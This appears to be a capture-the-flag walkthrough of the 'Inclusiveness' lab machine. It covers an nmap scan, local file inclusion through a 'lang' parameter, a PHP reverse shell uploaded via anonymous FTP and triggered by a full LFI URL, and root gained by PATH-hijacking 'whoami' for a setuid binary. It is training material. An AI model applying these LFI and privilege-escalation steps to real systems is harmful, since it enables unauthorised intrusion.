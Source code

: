 ```yaml
---
title: Inclusiveness
categories: [Proving Grounds, Play]
tags: [FTP, LFI, PrivEsc]
image:
  path: https://miro.medium.com/v2/resize:fit:1200/1*fiNtXsFnX5MR7BPQV_wBvg.png
  alt:  Inclusiveness Machine 🖥️
---
```



### Lets check the IP address ➡️

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled.png)

```bash
IP : 10.10.2.50
```
{: .nolineno}

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Inclusiveness]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.50
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 21:15 IST
Nmap scan report for 10.0.2.50
Host is up (0.00068s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.0.2.27
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0            4096 Feb 08  2020 pub [NSE: writeable]
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 061ba39283a57a15bd406e0c8d98277b (RSA)
|   256 cb3883261a9fd35dd3fe9ba1d3bcab2c (ECDSA)
|_  256 6554fc2d12ace184783e0023fbe4c9ee (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:6F:A3:19 (Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

## Web Enumeration ➡️

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%201.png)

Lets see the directory listing files —>

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%202.png)

Now lets check the `robots.txt` file ➡️

![image_1.png](/Vulnhub-Files/img/Inclusiveness/image_1.png)

Now lets look at this directory —>

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%203.png)

Lets check for english link which leads me for directory or files bruteforcing attack → `/etc/passwd` →

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%204.png)

Other than this I was unable to get any foothold into any internal directory files so I brute-force with LFI Injection payloads through burpsuite and I got this file —> `/etc/vsftpd.conf`

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%205.png)

Now I have also access with ftp so lets upload the reverse shell file in it —>

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%206.png)

Now I have uploaded the file in location /ftp/pub/shell.php lets load it and get my reverse shell →

URL —> `http://10.0.2.50/secret_information/?lang=/var/ftp/pub/shell.php`

In response to that I got this —>

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%207.png)

Now lets recon further ⤵️

```bash
www-data@inclusiveness:/home/tom$ ls -al
ls -al
total 100
drwxr-xr-x 15 tom  tom   4096 Feb  8  2020 .
drwxr-xr-x  3 root root  4096 Feb  8  2020 ..
-rw-------  1 tom  tom    684 Feb  8  2020 .ICEauthority
-rw-r--r--  1 tom  tom    220 Feb  8  2020 .bash_logout
-rw-r--r--  1 tom  tom   3526 Feb  8  2020 .bashrc
drwx------ 10 tom  tom   4096 Feb  8  2020 .cache
drwx------ 10 tom  tom   4096 Feb  8  2020 .config
drwx------  3 tom  tom   4096 Feb  8  2020 .gnupg
drwx------  3 tom  tom   4096 Feb  8  2020 .local
-rw-r--r--  1 tom  tom    807 Feb  8  2020 .profile
drwx------  2 tom  tom   4096 Feb  8  2020 .ssh
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Desktop
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Documents
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Downloads
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Music
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Pictures
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Public
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Templates
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Videos
-rwsr-xr-x  1 root root 16976 Feb  8  2020 rootshell
-rw-r--r--  1 tom  tom    448 Feb  8  2020 rootshell.c
www-data@inclusiveness:/home/tom$
```
{: .nolineno}

Lets check the `rootshell` file which executes as root and I have access to read `rootshell.c` file →

```bash
www-data@inclusiveness:/home/tom$ cat rootshell.c
cat rootshell.c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main() {

    printf("checking if you are tom...\n");
    FILE* f = popen("whoami", "r");

    char user[80];
    fgets(user, 80, f);

    printf("you are: %s\n", user);
    //printf("your euid is: %i\n", geteuid());

    if (strncmp(user, "tom", 3) == 0) {
        printf("access granted.\n");
	setuid(geteuid());
        execlp("sh", "sh", (char *) 0);
    }
}

www-data@inclusiveness:/home/tom$
```
{: .nolineno}

Now In this program whoami should be equal to tom to get our shell so I have to make whoami which says echo’s tom and it will execute accordingly →

```bash
www-data@inclusiveness:/home/tom$ cd /tmp
cd /tmp
www-data@inclusiveness:/tmp$ echo 'echo "tom"' >whoami
echo 'echo "tom"' >whoami
www-data@inclusiveness:/tmp$ cat whoami
cat whoami
echo "tom"
www-data@inclusiveness:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
www-data@inclusiveness:/tmp$ /home/tom/rootshell
/home/tom/rootshell
checking if you are tom...
you are: tom

access granted.
# /bin/bash -i
/bin/bash -i
root@inclusiveness:/tmp# whoami
whoami
tom
root@inclusiveness:/tmp# export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
<l/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
root@inclusiveness:/tmp# whoami
whoami
root
root@inclusiveness:/tmp# cd ~
cd ~
root@inclusiveness:/root# ls -al
ls -al
total 64
drwx------  5 root root  4096 Feb  8  2020 .
drwxr-xr-x 19 root root  4096 Feb  8  2020 ..
-rw-r--r--  1 root root   570 Jan 31  2010 .bashrc
drwx------  2 root root  4096 Feb  8  2020 .cache
-rw-------  1 root root    34 Feb  8  2020 .lesshst
drwxr-xr-x  3 root root  4096 Feb  8  2020 .local
-rw-r--r--  1 root root   148 Aug 18  2015 .profile
drwxr-xr-x  2 root root  4096 Feb  8  2020 .vim
-rw-------  1 root root 21141 Feb  8  2020 .viminfo
-rw-r--r--  1 root root    21 Feb  8  2020 .vimrc
-rw-r--r--  1 root root   141 Feb  8  2020 flag.txt
root@inclusiveness:/root# cat flag.txt
cat flag.txt
|\---------------\
||                |
|| UQ Cyber Squad |       
||                |
|\~~~~~~~~~~~~~~~\
|
|
|
|
o

flag{omg_you_did_it_YAY}
root@inclusiveness:/root#
```
{: .nolineno}

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }